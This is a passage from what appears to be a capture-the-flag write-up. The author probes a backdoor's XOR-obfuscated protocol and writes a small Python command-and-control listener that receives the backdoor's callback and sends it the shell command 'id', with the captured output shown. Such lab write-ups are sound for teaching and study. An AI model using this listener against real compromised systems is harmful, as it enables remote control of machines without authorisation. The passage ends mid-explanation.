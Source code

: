 
If I change `00` to `01`, it changes the low bit of each character:

    
    
    xor_key=b'JDX^QSDGHY^K^JDX^RTGGHY'
    xor_key=b'JDX^QSDGHY^O^JDX^RTGGHY'
    xor_key=b'JDX^QSDGHY^T^JDX^RTGGHY'
    

`$sec` of `AA` makes gibberish:

    
    
    xor_key=b'\xe1\xef\xf3\xf5\xfa\xf8\xef\xec\xe3\xf2\xf5\xfd\xf5\xe1\xef\xf3\xf5\xf9\xff\xec\xec\xe3\xf2'
    xor_key=b'\xe1\xef\xf3\xf5\xfa\xf8\xef\xec\xe3\xf2\xf5\xef\xf5\xe1\xef\xf3\xf5\xf9\xff\xec\xec\xe3\xf2'
    

### Send Commands

#### Plaintext - Fail

Given this is a backdoor, and it’s connecting back to me, presumably I can
send it commands. Since I have no idea what that format looks like, I’ll have
to do some guessing. I can try just replying with a command:

    
    
        c, address = s.accept()
        print(f'[+] Connection from {address}')
        data = c.recv(1024)
        guid, hex_msg = data.split(b'|')
        msg = unhexlify(hex_msg.strip())
        xor_key = unhexlify(msg.split(b':')[-1])
    
        print(f'{xor_key=}')
    
        cmd = "id"
        c.send(f"{cmd}\n".encode())
        print(c.recv(1024))            
        c.close()
    
    s.close()
    

I’ll just use `$sec` of `00` until I see some reason to do otherwise, as that
just leaves things as plaintext. On sending that, there is a response:

    
    
    oxdf@hacky$ python3 c2.py 
    [+] Connection from ('10.10.10.140', 55498)
    xor_key=b'KEY_PREFIX_I_KEY_SUFFIX'
    b'413588b1-b38f-4f82-b07f-79a49b75dfb7|2a242d73\n'
    

The first bit is the same GUID from the initial connection, so it seems to be
some kind of session id.

The data is useless:
